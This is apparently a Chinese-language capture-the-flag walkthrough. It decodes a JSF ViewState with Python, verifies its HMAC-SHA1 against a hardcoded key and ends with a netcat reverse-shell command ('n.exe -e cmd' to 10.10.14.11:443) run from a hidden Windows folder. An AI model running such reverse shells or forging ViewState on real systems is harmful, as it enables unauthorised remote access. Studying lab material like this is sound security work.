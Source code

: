 ```
javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0j
W7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
```

通过 python 代码来获取其中的字节流

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)
print(vs_urldecode)
vs_bs64decode = b64decode(vs_urldecode)
print(vs_bs64decode)
```

![截图](a2c8baa03fb3b7521cb22741ad851887.png)

这是加密的字节流，我们需要通过解密来获取其中的信息。SHA1的长度通常为20字节，很可能附加到首位或末尾。经过测试 HMAC 存储在最后20字节中

```
from base64 import b64decode
from urllib.parse import unquote_plus as urldecode
from hashlib import sha1  # 导入 hashlib 模块中的 sha1 哈希函数
import hmac  # 导入 hmac 模块，用于计算 HMAC

vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
vs_urldecode = urldecode(vs)  # 对字符串进行 URL 解码
vs_bs64decode = b64decode(vs_urldecode)  # 对 URL 解码后的字符串进行 Base64 解码
mac = vs_bs64decode[-20:]  # 获取数据的 MAC（消息验证码）
enc = vs_bs64decode[:-20]  # 获取数据的内容
enc_hmac = hmac.new(b'JsF9876-', enc, sha1).digest()  # 计算数据内容的 HMAC（基于哈希的消息认证码）
print(mac)  # 输出数据的 MAC（消息验证码）
print(enc_hmac)  # 输出计算得到的数据内容的 HMAC
```


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 